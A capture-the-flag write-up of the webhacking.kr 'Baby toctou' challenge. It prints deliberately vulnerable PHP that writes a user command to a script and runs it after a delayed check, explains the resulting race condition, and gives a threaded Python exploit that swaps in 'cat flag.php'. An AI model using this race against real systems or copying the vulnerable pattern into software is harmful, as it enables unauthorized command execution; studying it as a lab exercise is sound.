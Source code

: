 ```yaml
---
layout: page
title: "[Webhacking.kr] Baby toctou 🍼 writeup"
categories: hacking
---
```


## Introduction

I decided to give myself a try on this challenge which was solved my only 42 people at the time. I thought it would be a challenging (and interesting) one. In the end this one was not that hard, but surely an interesting one.

## First look

```php
<?php
  // system($_GET['q']);
  if(!preg_match('/^[a-f0-9]+$/',$_COOKIE['baby_toctou'])){ $newCookie = uniqid().rand(1,999999999); setcookie("baby_toctou",$newCookie); $_COOKIE['baby_toctou'] = $newCookie; }
  $cmd = $_GET['q'];
  $myfile = fopen("user/{$_COOKIE['baby_toctou']}.sh", "w") or die("Unable to open file!");
  fwrite($myfile, $cmd);
  fclose($myfile);
  if(($cmd === "ls") || ($cmd === "cat api.php") || ($cmd === "cat index.php")){ // valid check
    sleep(1); // my server is small and weak
    system("sh ./user/{$_COOKIE['baby_toctou']}.sh");
  }
  else{
    echo <<<HELP
only "ls", "cat api.php", "cat index.php" allowed
HELP;
  }
?>
```

This `api.php` simply writes the command you want to execute into a file named by the `baby_toctou` cookie. After writing the file, it checks the command before executing the file.
Nothing's wrong with the `if` check, so what could go wrong?

## Race condition

Now what if we change the content of the file after the `if` condition successes? We have a generously 1 second for that.

But how can we? Isn't the program running top-down?

What if we have 2 people P1 and P2, one executes, and one edits the content?
Here's the idea:

| Step | P1                              | P2                                |
| ---- | ------------------------------- | --------------------------------- |
| 1    | Writes `ls` to the file         | -                                 |
| 2    | Passes the `if` check           | -                                 |
| 3    | Waits 1 second before executing | Writes `cat flag.php` to the file |
| 4    | Executes the file               | Fails the `if` check              |

Easy!

## Exploitation

There's not much to talk about this, but I'll post my code here as a reference.

```python
import requests, threading, time

def send(cmd):
    cookies = {
        'PHPSESSID': 'ofq76t3822i5ee1plskj2bafmt',
        'baby_toctou': 'abc91', # just a random string, anything will work
    }

    headers = {
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.9',
        'Connection': 'keep-alive',
        # 'Cookie': 'PHPSESSID=ofq76t3822i5ee1plskj2bafmt; baby_toctou=abc91',
        'DNT': '1',
        'Referer': 'http://webhacking.kr:10019/',
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36',
    }

    params = {
        'q': cmd,
    }

    response = requests.get('http://webhacking.kr:10019/api.php', params=params, cookies=cookies, headers=headers, verify=False)
    print(response.text)

p1 = threading.Thread(target=send, args=('ls',))
p2 = threading.Thread(target=send, args=('cat flag.php',))


print('[info] getting in ...')

p1.start()
time.sleep(0.25)
p2.start()
```

## Conclusion

This challenge helped me develop my sense of a non-linear attack. Always think of a multi-user situation!
